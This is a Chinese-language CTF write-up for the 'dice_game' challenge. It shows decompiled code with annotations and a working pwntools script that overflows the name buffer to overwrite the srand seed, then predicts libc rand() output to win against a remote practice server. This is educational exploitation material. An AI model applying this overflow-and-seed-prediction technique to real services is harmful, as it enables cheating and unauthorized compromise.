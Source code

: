 Dice_game-writeup

放进ida反编译：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf[55]; // [rsp+0h] [rbp-50h]
  char v5; // [rsp+37h] [rbp-19h]
  ssize_t v6; // [rsp+38h] [rbp-18h]
  unsigned int seed[2]; // [rsp+40h] [rbp-10h]  #seed[0]距离buf 0x40,所以只要0x40个字符就可以溢出覆盖 seed 了 buf大小为0x55，可以读入0x50个字符，所以可以覆盖
  unsigned int v8; // [rsp+4Ch] [rbp-4h]

  memset(buf, 0, 0x30uLL);
  *(_QWORD *)seed = time(0LL);
  printf("Welcome, let me know your name: ", a2);
  fflush(stdout);
  v6 = read(0, buf, 0x50uLL);                  #read可以读入0x50个字符，可以覆盖到seed
  if ( v6 <= 49 )															 #有参数的read函数返回读入的字符数量
    buf[v6 - 1] = 0;                           #读的字符数量>49个酒不会触发这一行
  printf("Hi, %s. Let's play a game.\n", buf);
  fflush(stdout);
  srand(seed[0]);															 #c语言中rand函数只要有seed，之后随机的数字是可预见的
  v8 = 1;
  v5 = 0;
  while ( 1 )
  {
    printf("Game %d/50\n", v8);
    v5 = sub_A20();
    fflush(stdout);
    if ( v5 != 1 )
      break;
    if ( v8 == 50 )
    {
      sub_B28(buf);
      break;
    }
    ++v8;
  }
  puts("Bye bye!");
  return 0LL;
}
```

这里是引用主函数逻辑都在main函数中，在输入name的时候存在栈溢出，输入name后，会进入执行游戏的函数，大体猜数字，根据输入的数字和随机数生成的数字比较，猜对50次就给出flag

要把rand的seed设成我们知道的量，这样我们就能知道之后50个随机的数字是什么

rand()函数在lib文件中，所以我们只要用给的lib文件里的rand函数，先设好seed，然后得到之后随机的50个数，返回给服务器即可

```python
from pwn import *
from ctypes import * 

context.log_level='debug'
libc = cdll.LoadLibrary("libc.so.6")
#p = process('./dice_game')
 
p = remote("111.198.29.45",36187)
p.recvuntil(" let me know your name: ")
p.send("A" * 0x40 + p64(1))

libc.srand(1)
for i in range(50): 
  p.recvuntil("Give me the point(1~6): ")
  p.send(str(libc.rand()%6 + 1) + "\n")
 
p.interactive()
```

python用法：

`libc = cdll.LoadLibrary("libc.so.6")`

`libc.srand(1)`

`libc.rand()`



p.s.

理论上如果本地的libc是一样的话

可以自己用c写一个rand函数得到答案（但是没有用上面的方法保险）



### 关于rand() srand()

* 在使用rand()产生随机数时，产生的是0~RAND_MAX（该值与平台有关，至少为32767），之间的随机数，但其产生的随机数时伪随机数，默认随机数种子为0，所以每次重新运行程序，都会产生相同的随机数，如果要是每次运行时产生的随机数不同，可以以当前时间time(0)作为随机数种子。
* srand()重置随机数种子，以当前时间为参数。 c提供了srand()函数，原型为void srand(int a)。
  如果没调用srand()，你会发现你每次运行程序，rand()得到的序列值是不变的
  然后srand里参数相同是，rand() 得到的序列也将相同
* 0表示不存储time（）的返回值。
  time（）原型：time_t time（time_t *timer），返回值将存储在timer指定的位置，参数为0表示不存储返回值。


